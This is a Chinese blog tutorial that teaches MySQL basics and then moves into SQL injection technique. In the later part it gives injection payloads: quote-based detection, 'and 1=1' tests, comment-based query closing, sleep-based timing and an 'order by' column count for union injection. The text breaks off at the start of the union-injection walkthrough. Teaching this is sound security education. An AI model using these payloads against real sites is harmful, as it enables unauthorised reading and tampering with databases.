---
title: "深入浅出sql注入之mysql"
date: 2025-05-21T17:27:02+08:00
summary: " "
url: "/posts/深入浅出sql注入之mysql/"
categories:
  - "SQL注入"
tags:
  - "MYSQL注入"
draft: false
---

# 0x01sql注入前置

讲这个知识之前我们得先问自己几个问题

## 什么是数据库？

简单来说，数据库就是“数据”的“仓库”。数据库是一个组织化的数据集合，用于存储、管理和检索信息。它为存储数据提供了一种格式化的方式，并允许用户和应用程序有效地查询、更新和管理这些数据。数据库中包含表、关系以及操作对象，数据存储在表中。

## 什么是sql？

SQL是结构化查询语言，是一种用于与关系数据库进行交互的标准编程语言。它用于定义、操作和控制数据，以及管理数据库。SQL 是一种高度通用的语言，几乎所有的数据库管理系统（RDBMS）都支持SQL，包括MySQL、PostgreSQL、Microsoft SQL Server 和 Oracle 等。

sql里有四大最常见的操作，即**增删查改**：

- 增。增加数据。其简单结构为: `INSERT table_name(columns_name) VALUES(new_values)`。
- 删。删除数据。其简单结构为: `DELETE table_name WHERE condition`。
- 查。查找数据。其简单结构为：`SELECT columns_name FROM table_name WHERE condition`。
- 改。有修改/更新数据。简单结构为:`UPDATE table_name SET column_name=new_value WHERE condition`。

## 什么是sql注入？

**SQL注入：**是发生于应用程序和数据库层的安全漏洞，简而言之，是在输入的字符串之中**注入sql指令**，在设计不良的程序当中**忽略了字符检查**，那么这些注入进去的恶意指令就会被数据库服务器**误认为是正常的sql指令而运行**，因此遭到破坏或是入侵。这种漏洞可能**导致数据泄露、数据篡改、身份冒充和其他严重的安全问题**。

# 0x02正文

## MYSQL注入

什么是mysql?

MySQL 是一种开源的关系数据库管理系统（RDBMS），广泛用于存储和管理结构化数据。

一个MySQL服务器可以有多个数据库，每个数据库可以独立管理，互不干扰。

我们在讲解mysql注入之前，首先先要搭建一下mysql数据库

### Linux中搭建Mysql服务

```
sudo su 进入root用户
sudo apt update 更新所有软件包
sudo apt install mysql-server 安装mysql
sudo systemctl start mysql 启动mysql服务
sudo systemctl restart mysql 重启mysql服务
sudo systemctl stop mysql 关闭mysql服务
sudo systemctl status mysql 查看mysql服务状态
mysql --version 查看版本信息
mysql -u root -p 登录连接数据库
```

连接数据库后会出现mysql的命令窗口（初始密码为空）



我们先看一下初始的数据库情况是什么样的

### 0. SHOW列出数据库列表

`show databases; `列出 MySQL 数据库管理系统的数据库列表。



1. **mysql**：存储用户权限、用户信息和其他管理相关的数据。
2. **information_schema**：MySQL 中的一个系统数据库，它存储了关于数据库、表、列、索引、权限等元数据（metadata）的信息。

里面的一些常用表：

**`TABLES` 表**：存储数据库中所有表的信息。

**常用字段**

- `TABLE_SCHEMA`：表所属的数据库名称。
- `TABLE_NAME`：表的名称。
- `TABLE_TYPE`：表的类型（`BASE TABLE` 表示普通表，`VIEW` 表示视图）。
- `ENGINE`：表的存储引擎（如 `InnoDB`、`MyISAM`）。
- `TABLE_ROWS`：表中的行数（近似值）。
- `CREATE_TIME`：表的创建时间。

**`COLUMNS` 表**：存储数据库中所有表的列信息。

**常用字段**

- `TABLE_SCHEMA`：列所属的数据库名称。
- `TABLE_NAME`：列所属的表名称。
- `COLUMN_NAME`：列的名称。
- `DATA_TYPE`：列的数据类型（如 `INT`、`VARCHAR`）。
- `IS_NULLABLE`：列是否允许 `NULL` 值。
- `COLUMN_DEFAULT`：列的默认值。
- `CHARACTER_MAXIMUM_LENGTH`：字符类型列的最大长度。

**`SCHEMATA` 表**：存储数据库中所有数据库的信息。

**常用字段**

- `SCHEMA_NAME`：数据库的名称。
- `DEFAULT_CHARACTER_SET_NAME`：数据库的默认字符集。
- `DEFAULT_COLLATION_NAME`：数据库的默认排序规则。

3.**performance_schema**：用于监控 MySQL 服务器性能。

4.**sys**：提供 MySQL 服务器的诊断和性能优化信息。

接下来我们创建数据库

### 1. 操作数据库

#### 1.1 CREATE创建和DROP删除数据库

```
create database [database_name]; 创建HELLOWORLD数据库
drop database [database_name];直接删除数据库
drop database if exists [database_name];先检查数据库是否存在在进行删除操作
```

我们创建个数据库helloworld



这里看到确实是有一个helloworld数据库，那我们对这个数据库进行操作

#### 1.2 USE指定操作数据库

```
use [database_name]; 指定要进行操作的数据库
```



选择数据库后，你的后续 SQL 查询和操作在指定的数据库 **helloworld** 上执行

然后我们创建数据表

### 2. 操作数据表

我们先看一下创建的数据库里面的表是什么样的

#### 2.1 SHOW查看数据库中的表列表

```
show tables; 查看当前数据库下的所有表
```

不过在未创建数据表的时候数据库的内容是空的



#### 2.2 CREATE创建数据表

创建 MySQL 数据表需要以下信息：

- 表名
- 表字段名
- 定义每个表字段的数据类型

语法

```
CREATE TABLE [table_name] (
    column1 datatype,
    column2 datatype,
    ...
);
```

**参数说明：**

- `table_name` 是你要创建的表的名称。
- `column1`, `column2`, ... 是表中的列名。
- `datatype` 是每个列的数据类型。

不过数据类型还没学，就返回来看了一下数据类型

##### mysql数据类型

内容摘录菜鸟教程:https://www.runoob.com/mysql/mysql-data-types.html

MySQL 支持多种类型，大致可以分为三类：数值、日期/时间和字符串(字符)类型

- 数值类型

包括严格数值数据类型(INTEGER、SMALLINT、DECIMAL 和 NUMERIC)，以及近似数值数据类型(FLOAT、REAL 和 DOUBLE PRECISION)。

| TINYINT      | 1 Bytes                                  | (-128，127)                                                  | (0，255)                                                     | 小整数值        |
| ------------ | ---------------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ | --------------- |
| SMALLINT     | 2 Bytes                                  | (-32 768，32 767)                                            | (0，65 535)                                                  | 大整数值        |
| MEDIUMINT    | 3 Bytes                                  | (-8 388 608，8 388 607)                                      | (0，16 777 215)                                              | 大整数值        |
| INT或INTEGER | 4 Bytes                                  | (-2 147 483 648，2 147 483 647)                              | (0，4 294 967 295)                                           | 大整数值        |
| BIGINT       | 8 Bytes                                  | (-9,223,372,036,854,775,808，9 223 372 036 854 775 807)      | (0，18 446 744 073 709 551 615)                              | 极大整数值      |
| FLOAT        | 4 Bytes                                  | (-3.402 823 466 E+38，-1.175 494 351 E-38)，0，(1.175 494 351 E-38，3.402 823 466 351 E+38) | 0，(1.175 494 351 E-38，3.402 823 466 E+38)                  | 单精度 浮点数值 |
| DOUBLE       | 8 Bytes                                  | (-1.797 693 134 862 315 7 E+308，-2.225 073 858 507 201 4 E-308)，0，(2.225 073 858 507 201 4 E-308，1.797 693 134 862 315 7 E+308) | 0，(2.225 073 858 507 201 4 E-308，1.797 693 134 862 315 7 E+308) | 双精度 浮点数值 |
| DECIMAL      | 对DECIMAL(M,D) ，如果M>D，为M+2否则为D+2 | 依赖于M和D的值                                               | 依赖于M和D的值                                               | 小数值          |

- 日期和时间类型

表示时间值的日期和时间类型为DATETIME、DATE、TIMESTAMP、TIME和YEAR

| DATE      | 3    | 1000-01-01/9999-12-31                                        | YYYY-MM-DD          | 日期值                   |
| --------- | ---- | ------------------------------------------------------------ | ------------------- | ------------------------ |
| TIME      | 3    | '-838:59:59'/'838:59:59'                                     | HH:MM:SS            | 时间值或持续时间         |
| YEAR      | 1    | 1901/2155                                                    | YYYY                | 年份值                   |
| DATETIME  | 8    | '1000-01-01 00:00:00' 到 '9999-12-31 23:59:59'               | YYYY-MM-DD hh:mm:ss | 混合日期和时间值         |
| TIMESTAMP | 4    | '1970-01-01 00:00:01' UTC 到 '2038-01-19 03:14:07' UTC结束时间是第 **2147483647** 秒，北京时间 **2038-1-19 11:14:07**，格林尼治时间 2038年1月19日 凌晨 03:14:07 | YYYY-MM-DD hh:mm:ss | 混合日期和时间值，时间戳 |

- 字符串类型

| 类型       | 大小                  | 用途                            |
| :--------- | :-------------------- | :------------------------------ |
| CHAR       | 0-255 bytes           | 定长字符串                      |
| VARCHAR    | 0-65535 bytes         | 变长字符串                      |
| TINYBLOB   | 0-255 bytes           | 不超过 255 个字符的二进制字符串 |
| TINYTEXT   | 0-255 bytes           | 短文本字符串                    |
| BLOB       | 0-65 535 bytes        | 二进制形式的长文本数据          |
| TEXT       | 0-65 535 bytes        | 长文本数据                      |
| MEDIUMBLOB | 0-16 777 215 bytes    | 二进制形式的中等长度文本数据    |
| MEDIUMTEXT | 0-16 777 215 bytes    | 中等长度文本数据                |
| LONGBLOB   | 0-4 294 967 295 bytes | 二进制形式的极大文本数据        |
| LONGTEXT   | 0-4 294 967 295 bytes | 极大文本数据                    |

以上就是我们的数据类型了，那我们接下来创建一个数据表

```
CREATE TABLE [table_name] (
    column1 datatype,
    column2 datatype,
    ...
);
create table users(
id int auto_increment primary key,
username varchar(50) not null,
password varchar(50) not null
);
```

参数解释

- `CREATE TABLE` 是用于创建新表的 SQL 语句。
- `users` 是要创建的表的名称。
- `id` 是表中的一个列名，用于唯一标识每个用户。
- `INT` 表示该列的数据类型是整数。
- `AUTO_INCREMENT` 表示该列会自动递增。每当插入一条新记录时，`id` 列会自动生成一个唯一的整数值，通常从 1 开始。
- `PRIMARY KEY` 指定 `id` 列作为主键，确保每个用户的 `id` 是唯一的，且不能为 NULL。这意味着在 `users` 表中，每个用户都必须有一个唯一的 `id` 值。
- - `username` 是表中的另一个列名，用于存储用户的用户名。
  - VARCHAR(50)` 表示该列的数据类型为可变长度字符串，最大长度为 50 个字符。
- - `NOT NULL` 表示该列不能为空，必须提供一个值。换句话说，用户必须输入用户名。
- - `password` 是表中的第三个列名，用于存储用户的密码。
- - `VARCHAR(100)` 表示该列的数据类型也是可变长度字符串，最大长度为 100 个字符。
- - `NOT NULL` 同样表示该列不能为空，用户必须提供密码。

然后我们可以看到是成功创建了一个users数据表的



查看一下数据表



#### 2.3 RNAME修改和DROP删除表

```
RENAME TABLE [table_name] to [new table_name];修改表名
DROP TABLE [table_name]; 直接删除表
DROP TABLE IF EXISTS [table_name];  -- 会检查是否存在，如果存在则删除
```



创建数据表后，接下来我们就是向数据表中插入我们的数据了，我们先查看一下我们的字段

### 3. 操作数据

#### 3.1 查询当前表下字段

```
show full columns from 表名;查询当前表下所有字段信息
show columns from 表名; 显示数据表的属性，属性类型，主键信息 ，是否为 NULL，默认值等其他信息。
```



插入数据的话通常用INSERT INTO SQL语法:

#### 3.2 INSERT添加数据

```
INSERT INTO table_name (column1, column2, column3, ...)
VALUES (value1, value2, value3, ...);
```

**参数说明：**

- `table_name` 是你要插入数据的表的名称。
- `column1`, `column2`, `column3`, ... 是表中的列名。
- `value1`, `value2`, `value3`, ... 是要插入的具体数值。

**如果字段是字符型其数据必须加上单引号或者双引号**

那我们插入一个数据看看

```
insert into users (id,username,password)
    -> value(1,"wanth3f1ag","123456")
    -> ;
```

解释来说就是插入了一行数据，id为1，username为wanth3f1ag，password为123456

如果你要插入所有列的数据，可以省略列名

```
mysql> insert into users value(2,"vu1n4bly","admin123");
```

如果你要插入多行数据，可以在 VALUES 子句中指定多组数值

**注意：** 使用箭头标记 **->** 不是 SQL 语句的一部分，它仅仅表示一个新行，如果一条 SQL 语句太长，我们可以通过回车键来创建一个新行来编写 SQL 语句，SQL 语句的命令结束符为分号 **;**。

那既然插入了数据那我们就试着去查询一下数据

### 4. 查询数据

#### 4.1 SELECT查询数据

mysql用SELECT语句来查询数据

**在mysql中，windows下要区分单引号''和反引号``,(linux下不区分)：**

**单引号主要用于字符串的引用，反引号主要用于数据库，表，索引，列，别名**

语法

```
SELECT column1, column2, ...
FROM table_name
[WHERE condition]
[ORDER BY column_name [ASC | DESC]]
[LIMIT number];
```

**参数说明：**

- `column1`, `column2`, ... 是你想要选择的列的名称，如果使用 `*` 表示选择所有列。
- `table_name` 是你要从中查询数据的表的名称。
- `WHERE condition` 是一个可选的子句，用于指定过滤条件，只返回符合条件的行。
- `ORDER BY column_name [ASC | DESC]` 是一个可选的子句，用于指定结果集的排序顺序，默认是升序（ASC）。
- `LIMIT number` 是一个可选的子句，用于限制返回的行数。

例如我们查询所有列

```
SELECT * FROM users;
```



也可以查询指定列

```
SELECT username,password FROM users;
```



我们也可以添加where语句进行筛选符合条件的行

```
SELECT * FROM users WHERE id = 2;// 查询id为2对应的行
```



我们还可以用LIMIT子语句限制返回的行数

```
SELECT * FROM users LIMIT 1;
```



可以用ORDER BY 子语句去对指定列进行排列

```
SELECT * FROM users ORDER BY id;
```

默认是升序，DESC是降序

```
SELECT * FROM users ORDER BY id DESC;
```

但是SELECT语句是灵活的，我们可以根据实际需求去进行调整，这也是我们sql注入学习的前置，要对SELECT语句进行一定的了解才更有利于我们去进行sql注入的学习

然后我们现在来学习一下WHERE子语句的一些相关利用

### WHERE子语句

`WHERE condition` 是用于指定过滤条件的子句。这些条件不仅限于我们的操作符(=,<,>,!=,<=,>=)，还可以用AND,OR指定一个或多个条件，模糊匹配(LIKE)等条件去匹配更精准的结果。

| 操作符 | 描述                                                         | 实例                 |
| :----- | :----------------------------------------------------------- | :------------------- |
| =      | 等号，检测两个值是否相等，如果相等返回true                   | (A = B) 返回false。  |
| <>, != | 不等于，检测两个值是否相等，如果不相等返回true               | (A != B) 返回 true。 |
| >      | 大于号，检测左边的值是否大于右边的值, 如果左边的值大于右边的值返回true | (A > B) 返回false。  |
| <      | 小于号，检测左边的值是否小于右边的值, 如果左边的值小于右边的值返回true | (A < B) 返回 true。  |
| >=     | 大于等于号，检测左边的值是否大于或等于右边的值, 如果左边的值大于或等于右边的值返回true | (A >= B) 返回false。 |
| <=     | 小于等于号，检测左边的值是否小于或等于右边的值, 如果左边的值小于或等于右边的值返回true | (A <= B) 返回 true。 |

如果给定的条件在表中没有任何匹配的记录，那么查询不会返回任何数据。

前面讲过数据库的基本操作是增删查改，那我们前面讲了如何增和删，那我们现在来讲一下怎么改，这时候就可以用到UPDATE命令了

### 5. UPDATE更新数据

如果我们需要修改或更新 MySQL 中的数据，我们可以使用 **UPDATE** 命令来操作。

语句

```mysql
UPDATE table_name
SET column1 = value1, column2 = value2, ...
WHERE condition;
```

**参数说明：**

- `table_name` 是你要更新数据的表的名称。
- `column1`, `column2`, ... 是你要更新的列的名称。
- `value1`, `value2`, ... 是新的值，用于替换旧的值。
- `WHERE condition` 是一个可选的子句，用于指定更新的行。如果省略 `WHERE` 子句，将更新表中的所有行。

当然，我们可以同时更新很多个字段，也可以在一个表中同时更新数据，当我们需要更新数据表中指定行的数据时 WHERE 子句是非常有用的。

当然我们用表达式去更新数据的value也是可以的

我们试一下

1.更新单个列

```
UPDATE users SET username='wanth3f1ag' WHERE id=2;
```



2.更新多个列

```
UPDATE users SET username='wanth3f1ag',password=123456 WHERE id=2;
```



3.使用表达式

```
UPDATE users SET username='wanth3f1ag',password=123*2 WHERE id=2;
```



4.更新所有行

```
UPDATE users SET password=123456;
```



 5.更新嵌套查询

```
UPDATE users SET passwrod =(子查询语句) where子语句;
```

讲完了改的部分，我们来讲一下mysql中的删

### 6.DELETE删除数据

可以使用 **DELETE FROM** 命令来删除 MySQL 数据表中的记录

语法

```
DELETE FROM table_name
WHERE condition;
```

**参数说明：**

- `table_name` 是你要删除数据的表的名称。
- `WHERE condition` 是一个可选的子句，用于指定删除的行。如果省略 `WHERE` 子句，将删除表中的所有行。

和update一样，可以用WHERE子语句去设置条件精准指定目标



### LIKE子语句和通配符

用于进行模糊匹配的关键字。它通常与通配符(%)一起使用，用于搜索符合某种模式的字符串。

%百分号表示任意字符，和我们unix中的*是一样的

语法

```
SELECT column1, column2, ...
FROM table_name
WHERE column_name LIKE pattern;
```

**参数说明：**

- `column1`, `column2`, ... 是你要选择的列的名称，如果使用 `*` 表示选择所有列。
- `table_name` 是你要从中查询数据的表的名称。
- `column_name` 是你要应用 `LIKE` 子句的列的名称。
- `pattern` 是用于匹配的模式，可以包含通配符。

LIKE子语句可以在WHERE子句中用，可以用来代替where子语句中的等号，**%** 通配符表示零个或多个字符。例如，**'a%'** 匹配以字母 **'a'** 开头的任何字符串。

我们试一下

假设我们有以下表



1.`%` 通配符表示零个或多个字符。例如，**'w%'** 匹配以字母 **'w'** 开头的任何字符串。

```
select * from users where username like 'w%';
```



2.`_ `通配符表示一个字符。例如，**'_a%'** 匹配第二个字母为 **'a'** 的任何字符串。

```
mysql> select * from users where username like '_u%';
```



3.组合使用 `%` 和` _`，例如,`'w%a_'`表示第一个字符是w，然后是0或者无数个字符，接着是字符a，最后是匹配一个任意字符



以上就是我们用通配符进行模糊匹配的方法

### 7.UNION联合查询操作

UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合，并去除重复的行。

要求:必须由两个或多个 SELECT 语句组成，每个 SELECT 语句的列数和对应位置的数据类型必须相同。

语法

```mysql
SELECT column1, column2, ... FROM table1 [WHERE condition1] UNION SELECT column1, column2, ... FROM table2 [WHERE condition2] [ORDER BY column1, column2, ...];
```

**参数说明：**

- `column1`, `column2`, ... 是你要选择的列的名称，如果使用 `*` 表示选择所有列。
- `table1`, `table2`, ... 是你要从中查询数据的表的名称。
- `condition1`, `condition2`, ... 是每个 `SELECT` 语句的过滤条件，是可选的。
- `ORDER BY` 子句是一个可选的子句，用于指定合并后的结果集的排序顺序。

我们来试一下

假如我们有以下表



然后我们用union去连接两个select查询语句,那么会得到:



可以看到这里已经将id和password的查询结果全部集合然后进行了一个排列

但是我们要注意:*UNION 操作符在合并结果集时会去除重复行，而 UNION ALL 不会去除重复行*



我这里创建了一个密码和其他某个一样的密码，然后分别进行了union和union all联合查询，可以发现两个的结果和上面的知识点是一样的。

- **()中的内容优先查询**

子查询，优先执行`()`中的查询语句,其实这也是我们sql注入的关键点，通过优先级去将先执行的语句的结果当成后执行语句的参数参与执行查询

### GROUP BY 子语句

GROUP BY 语句根据一个或多个列对结果集进行分组。

语法

```
SELECT column1, aggregate_function(column2)
FROM table_name
WHERE condition
GROUP BY column1;
```

- `column1`：指定分组的列。
- `aggregate_function(column2)`：对分组后的每个组执行的聚合函数。
- `table_name`：要查询的表名。
- `condition`：可选，用于筛选结果的条件。

group by语句还可以用来探测数据的多少

```
group by sleep(1);
```

假设我这里有两条数据，那么就会延迟2s


### ORDER BY 子语句

**ORDER BY(排序)** 语句可以按照一个或多个列的值进行升序（**ASC**）或降序（**DESC**）排序。和group by一样，`group by`正常用在数据的分组。但是order by 和 group by 还可以用于实现判断数据表中的列数。



当`group by`后面的数字大于前面select查询的列数时，会产生报错。

语法:

```mysql
SELECT column1, column2, ...
FROM table_name
ORDER BY column1 [ASC | DESC], column2 [ASC | DESC], ...;
```

**参数说明：**

- `column1`, `column2`, ... 是你要选择的列的名称，如果使用 `*` 表示选择所有列。
- `table_name` 是你要从中查询数据的表的名称。
- `ORDER BY column1 [ASC | DESC], column2 [ASC | DESC], ...` 是用于指定排序顺序的子句。`ASC` 表示升序（默认），`DESC` 表示降序。

使用方法

1.单列排序



2.多列排序

```
SELECT * FROM employees
ORDER BY department_id ASC, hire_date DESC;
```

3.使用数字表示列的位置

```
SELECT first_name, last_name, salary
FROM employees
ORDER BY 3 DESC, 1 ASC;
```

按第三列（salary）降序 DESC 排序，然后按第一列（first_name）升序 ASC 排序。

### group_concat()函数

将数据合并到一行显示

例如

```
select group_concat(id,username,password) 
from users;
```



### 8.JOIN左右连接

这个的话是参考了一位师傅的文章：[MYSQL语法：左连接、右连接、内连接、全外连接](https://blog.csdn.net/u011047968/article/details/107744901)

JOIN 按照功能大致分为如下：

- left join（左连接）：返回包括左表中的所有记录和右表中连接字段相等的记录。
- right join（右连接）：返回包括右表中的所有记录和左表中连接字段相等的记录。
- inner join（内连接）：只返回两个表中连接字段相等的行。

概念的话听起来不好理解，看看师傅给出的图示



#### LEFT JOIN左连接

LEFT JOIN 返回左表的所有行，并包括右表中匹配的行，如果右表中没有匹配的行，将返回 NULL 值

语法：

```
SELECT column1, column2, ...
FROM table1
LEFT JOIN table2 ON table1.column_name = table2.column_name;
```

这里on后面的就是我们的连接条件

我们本地测试一下

先在本地创建两个表，之前有过一个users了，这里就再创建一个users2并插入数据



然后我们用左连接

```
select * from users left join users2 on users.id = users2.id;
```



这里返回了左表的所有和右表中和左表匹配的行，并且没有的地方返回NULL

#### RIGHT JOIN右连接

RIGHT JOIN 返回右表的所有行，并包括左表中匹配的行，如果左表中没有匹配的行，将返回 NULL 值

语法：

```
SELECT column1, column2, ...
FROM table1
RIGHT JOIN table2 ON table1.column_name = table2.column_name;
```

还是刚刚的例子，我们试一下



可以看到这里只匹配了左表的两行，而不会显示不匹配的行数据

#### inner join内连接

INNER JOIN 返回两个表中满足连接条件的匹配行，相当于交集

```
SELECT column1, column2, ...
FROM table1
INNER JOIN table2 ON table1.column_name = table2.column_name;
```

我们试一下



可以看到这里和上面的右连接是一样的结果，这是因为我刚好把例子做的很类似，如果在user2加上一个不一样的行则右连接就会变成这样



### 9.运算符优先级


### 10.regexp和rlike正则匹配

REGEXP 和RLIKE用于检查一个字符串是否匹配指定的正则表达式模式





语法：

```
SELECT column1, column2, ...
FROM table_name
WHERE column_name REGEXP 'pattern';
```

例如，

查找 name 字段中以 **'st'** 为开头的所有数据

```
SELECT name FROM person_tbl WHERE name REGEXP '^st';
```

查找 name 字段中以 **'ok'** 为结尾的所有数据：

```
SELECT name FROM person_tbl WHERE name REGEXP 'ok$';
```

需要注意的是：MySQL 的正则表达式默认是**不区分大小写**的。如果需要区分大小写，可以使用 `BINARY` 关键字

### 11.ALTER修改表和字段

MySQL 的 **ALTER** 命令用于修改数据库、表和索引等对象的结构。

**ALTER** 命令允许你添加、修改或删除数据库对象，并且可以用于更改表的列定义、添加约束、创建和删除索引等操作。

- 添加列

```
ALTER TABLE table_name
ADD COLUMN new_column_name datatype;
```

- 修改列的数据类型

```
ALTER TABLE TABLE_NAME
MODIFY COLUMN column_name new_datatype;
```

- 修改列名

```
ALTER TABLE table_name
CHANGE COLUMN old_column_name new_column_name datatype;
```

- 删除列

```
ALTER TABLE table_name
DROP COLUMN column_name;
```

- 修改表名

```
ALTER TABLE old_table_name
RENAME TO new_table_name;
```

### 12.MYSQL预处理语句

简单来说就是预处理一个变量代表一个查询语句，用PREPARE 语句去预设一个语句，然后通过EXECUTE语句去执行预处理语句

#### PREPARE 语句

语法

```mysql
PREPARE stmt_name FROM preparable_stmt
```

PREPARE 语句会准备一条sql语句，并为其指定一个变量名，而stmt_name可以作为我们后面需要执行该语句的时候的一个替换品，预处理语句使用 执行 `EXECUTE`，使用 释放 `DEALLOCATE PREPARE`。

在语句中，`?` 字符可用作参数标记，用于指示稍后执行查询时数据值绑定到查询的位置

需要注意的是，**此处的语句名称是不区分大小写的**，一会讲完预处理的知识点会进行测试的

#### EXECUTE 语句

语法

```
EXECUTE stmt_name
    [USING @var_name [, @var_name] ...]
```

使用 准备语句后 ，可以使用引用该准备好的语句名称的语句`PREPARE`来执行该语句 。如果准备好的语句包含任何参数标记，则必须提供一个 子句，列出包含要绑定到参数的值的用户变量。参数值只能由用户变量提供，并且子句中变量的名称必须与语句中参数标记的数量完全相同。

#### DEALLOCATE PREPARE 语句

语法

```
{DEALLOCATE | DROP} PREPARE stmt_name
```

释放当前会话下生成的预处理语句 `PREPARE`

我们本地测试一下

```
mysql> prepare a from 'select * from users where username = ?';
Query OK, 0 rows affected (0.00 sec)
Statement prepared

mysql> select * from users;
+----+------------+----------+
| id | username   | password |
+----+------------+----------+
|  1 | vu1n4bly   | 888888   |
|  2 | wanth3f1ag | 123456   |
|  3 | bao        | 3        |
|  4 | man        | 1008611  |
|  5 | _1         | 123      |
+----+------------+----------+
5 rows in set (0.00 sec)

mysql> set @name = "bao";
Query OK, 0 rows affected (0.00 sec)

mysql> execute a using @name;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | bao      | 3        |
+----+----------+----------+
1 row in set (0.00 sec)
```

这里我测过，如果直接在execure中using字符串的话貌似是不行的

然后我们看看大小写敏感问题

```
mysql> execute A using @name;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | bao      | 3        |
+----+----------+----------+
1 row in set (0.00 sec)
```

可以看到这里是大小写不敏感的

所以其实一整个预处理的语句的语法就是

```
PREPARE stmt_name FROM preparable_stmt;//定义预处理语句
set @name = '';//定义语句中需要的变量
execute stmt_name using @name;//执行预处理语句
{DEALLOCATE | DROP} PREPARE stmt_name//释放预处理语句
```

### 13.show status语句

用 SHOW  STATUS 语句可以查看存储过程和函数的状态

语法

```
SHOW    { PROCEDURE   |   FUNCTION   }  STATUS   [  LIKE  'pattern'  ]
```

   SHOW STATUS 语句是  MySQL 的一个扩展。它返回子程序的特征，如数据库、名字、类型、创建者及创建和修改日期。如果没有指定样式，根据使用的语句，所有的存储程序或存储函数的信息都会被列出。PROCEDURE  和  FUNCTION  分别表示查看存储过程和函数；LIKE  语句表示匹配存储过程或函数的名称。



例如我们需要查看存储过程

```
SHOW PROCEDURE STATUS
```

 在 MySQL 中，存储过程和函数的信息存储在 information_schema 数据库下的 Routines 表中，可以通过查询该表的记录来查询存储过程和函数的信息

```
SELECT   *   FROM   information_schema.Routines
```


## MYSQL注入前提

可以实行注入的地方，通常是一个可以与数据库进行连接的地方，比如搜索框，登录界面，但凡存在参数输入的情况都有可能是存在sql的

### INFORMATION_SCHEMA库

我们可以了解到，在mysql>5.0以上版本里都存在一个自带的信息数据库INFORMATION_SCHEMA，这个数据库存储着MYSQL服务器里的其他数据库的全部信息如数据库名，数据库的表，表中的列和数据，所以我们可以通过这个数据库去获取其他数据库的信息，这也是我们后面要讲的绝大多数注入姿势里面都会用到的

- SCHEMATA：里面存储着mysql所有数据库的基本信息
- TABLES：里面存储着mysql中的表信息，包括表的创建时间更新时间等等
- COLUMNS：里面存储着mysql中表的列信息，包括这个表的所有列以及每个列的信息，包括列的数据类型，编码类型等

但是这个只有在5.0以上的数据库中才能用到这个信息数据库，而如果低于5.0的话就不能用了，这个我学了再写上去

我们正常的sql查询语句是

字符型

```
select * from <表名> where id =’$_GET[id]‘;
```

数字型

```
select * from <表名> where id =$_GET[id];
```

### 1.判断是否存在SQL注入

单引号判断法，即在参数后面加上单引号（无论字符型还是整型都会因为单引号个数不匹配而报错）

```mysql
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'fron users where id = 1'
```

常见的闭合方式

```
常见的闭合方式：''、""、('')、("")等
```

**闭合的作用**：为了**使前一段语句正常执行**且**去掉后面语句的限制**，对于后面的语句我们可以用注释符号注释掉

常见的注释符号就是:`-- -`,`#`,`%23`

### **2.判断注入方式**

- • 数字型：当输入的**参数为整形**时，称为数字型注入
- • 字符型：当输入的**参数为字符串**时，称为字符型注入

*为什么要判断数字型还是字符型
答：构造恶意*`sql`语句时，数字型无需判断闭合方式，字符型需要判断闭合方式

**数字型判断：**

用最经典的and 1=1和and 1=2进行判断，数字型一般提交内容为数字，**但数字不一定是数字型**

假设某个注入的注入类型是数字型，那么

```
?select * from information where id=1 and 1=1页面运行正常

?id=1 and 1=2页面运行错误
```



为什么呢?

在a and b运算中，当使用 `AND` 运算符时，只有当所有条件都为真时，整个条件才被视为真。

解释：当输入 and 1=1时，后台执行 Sql 语句：select * from <表名> where id = x and 1=1，语法正确且逻辑判断为正确，所以返回正常。

当输入 and 1=2时，后台执行 Sql 语句：select * from <表名> where id = x and 1=2，语法正确但逻辑判断为假，所以返回错误。

假设这里是字符型判断的话，我们输入的语句就会有以下的执行情况：

当输入1 and 1=1，1 and 1=2时，后台执行 Sql 语句：

```
select * from <表名> where id = ‘x and 1=1’

select * from <表名> where id = ‘x and 1=2’
```

查询语句将 and 语句全部转换为了字符串，并没有进行 and 的逻辑判断，所以不会出现以上结果，故假设是不成立的。

**字符型判断：**

也是用最经典的 and ‘1’='1 和 and ‘1’='2来判断

假设某个注入的注入类型是字符型

```
?id=1’ and ‘1’ = '1'--+,页面运行正常

?id=1’ and ‘1’ = '2,页面运行错误
```


解释：当输入 and ‘1’='1时，后台执行 Sql 语句：select * from <表名> where id = ‘x’ and ‘1’='1’语法正确，逻辑判断正确，所以返回正确。

当输入 and ‘1’='2时，后台执行 Sql 语句：select * from <表名> where id = ‘x’ and ‘1’='2’语法正确，但逻辑判断错误，所以返回异常。

还有一个方法就是运用运算去进行判断

数字型是可以计算的，但字符型无法进行计算

例如

```
使用减法计算id值

数字型会得到id=1的数据
select * from users where id = 2-1; 
字符型会得到id=2的数据
select * from users where id = '2-1';
```


# sql注入分类

- 有回显

1. 回显有正常信息:union联合注入
2. 回显有报错信息:报错注入

- 无回显

1. 页面无回显时，利用返回页面判断来判断查询语句正确与否:布尔盲注
2. 页面无回显时，利用时间延迟语句是否已经执行来判断查询语句正确与否:时间盲注

- 允许同时执行多条语句时，利用逗号同时执行多条语句的注入:堆叠注入

## 1.UNION联合注入

### 什么是联合注入？

联合注入即union注入，其原理就是，在我们原先查询语句的基础上通过union去拼接上我们的select语句，然后我们拼接的查询结果会和前面的select语句的查询结果进行拼接并返回到页面(关于UNION的操作可以返回去看搭建数据库时的讲解)

联合注入的利用条件，UNION 拼接的 SELECT 语句必须拥有相同数量的列，列也必须拥有相似的数据类型，每条 SELECT 语句中的列的顺序必须相同，也就是说只能：

```sql
select 1,2,3 from table_name1 union select 4,5,6 from table_name2;
```

这也是为什么我们在联合注入之前往往需要先利用 `order/group by n` 判断字段的数量。

假设此时我们的数据库中一个表的内容是这样的

```mysql
mysql> select * from users;
+----+------------+----------+
| id | username   | password |
+----+------------+----------+
|  1 | test       | 123456   |
|  2 | bao        | 1008611  |
|  3 | wanth3f1ag | 1008     |
|  4 | 1008       | 11111    |
+----+------------+----------+
4 rows in set (0.00 sec)
```

假设此时我们的sql查询语句是这样的

```myslq
select * from users where id = ?
```

注入步骤(假设有3列)

- 判断字段数

```
1' order by 4--+
```

因为前面说过，order by是对字段进行排序，所以如果我们的4大于我们的字段数，就会出现报错，所以字段数是3

但是需要注意的是，这里的列数指的是前面查询语句的字段名的个数，而不是全部的字段名

> [!CAUTION]
>
